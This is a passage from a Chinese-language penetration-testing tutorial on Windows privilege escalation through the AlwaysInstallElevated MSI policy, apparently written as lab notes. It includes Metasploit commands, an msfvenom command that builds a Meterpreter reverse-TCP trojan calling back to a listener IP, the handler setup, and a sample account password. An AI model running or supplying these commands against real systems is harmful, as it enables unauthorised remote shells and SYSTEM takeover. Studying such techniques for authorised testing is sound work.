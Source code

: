 ```python
background
use post/multi/recon/local_exploit_suggester
show options
set session 1
run
```

![image-20241009141419357](https://image.201068.xyz/assets/38.后渗透/image-20241009141419357.png)

## 二. MSI安装策略提权

MSI安装策略提权是由于用户在配置MSI安装策略时，启用了“**永远以高特权进行安装**”（`AlwaysInstallElevated`，默认情况下为禁用状态），使得任何权限的用户都可以通过SYSTEM权限安装MSI程序。

此时可以在目标主机上安装一个预先制作的恶意MSI文件，以获得`SYSTEM`权限。

MSI 全称为 `Microsoft Installer`，是微软格式的应用程序安装包，实际上是一个数据库，包含安装和卸载软件时需要使用的大量指令和程序数据。

### 2.1. 确定系统是否存在漏洞

成功利用该方法提权的关键是用户在配置MSI安装策略时启用了“永远以高特权进行安装”。

该选项启用后，系统会自动在注册表的以下两个位置创建键值“`1`”。

```python
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKET_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

#### 先连接一个**低权限木马**

> 不能是服务账户，需要是可交互的普通用户
>
> apache / Qwe.123

##### 生成木马

```python
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.70.4 LPORT=8888 -f exe -o msf_8888.exe
```

监听木马

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 8888
exploit
```

##### 或者使用已有会话

```python
sessions -i 1
getuid
```
